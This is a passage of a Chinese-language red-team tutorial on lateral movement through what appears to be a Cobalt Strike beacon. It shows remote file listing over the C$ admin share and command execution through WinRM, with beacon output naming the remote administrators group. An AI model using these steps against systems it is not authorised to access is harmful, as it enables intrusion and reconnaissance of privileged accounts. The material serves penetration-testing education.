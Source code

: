 ## 3、查看文件列表

比如运行下面的命令。其中 /S 表示列出指定目录及子目录所有文件，/B 表示使用空格式，即没有标题或摘要信息。

```powershell
shell dir /S /B \\host\C$
```

```powershell
beacon> shell dir /S /B \\WIN-P2AASSD1AF1\C$\Users
[*] Tasked beacon to run: dir /S /B \\WIN-P2AASSD1AF1\C$\Users
[+] host called home, sent: 67 bytes
[+] received output:
\\WIN-P2AASSD1AF1\C$\Users\administrator
\\WIN-P2AASSD1AF1\C$\Users\Classic .NET AppPool
\\WIN-P2AASSD1AF1\C$\Users\Daniel
\\WIN-P2AASSD1AF1\C$\Users\Public
\\WIN-P2AASSD1AF1\C$\Users\administrator\Contacts
\\WIN-P2AASSD1AF1\C$\Users\administrator\Desktop
\\WIN-P2AASSD1AF1\C$\Users\administrator\Documents
\\WIN-P2AASSD1AF1\C$\Users\administrator\Downloads
\\WIN-P2AASSD1AF1\C$\Users\administrator\Favorites
……内容过多，余下部分省略……
```

## 4、使用 WinRM 运行命令

WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管服务，使用 WinRM 可以使远程管理更容易一些。

如果想利用 WinRM 运行命令则可以使用下面的命令。

```powershell
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}
```

```powershell
beacon> powershell Invoke-Command -ComputerName WIN-P2AASSD1AF1 -ScriptBlock { net localgroup administrators}
[*] Tasked beacon to run: Invoke-Command -ComputerName WIN-P2AASSD1AF1 -ScriptBlock { net localgroup administrators}
[+] host called home, sent: 303 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
Administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```

注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 `winrm quickconfig`命令，输入 `y` 回车即可。
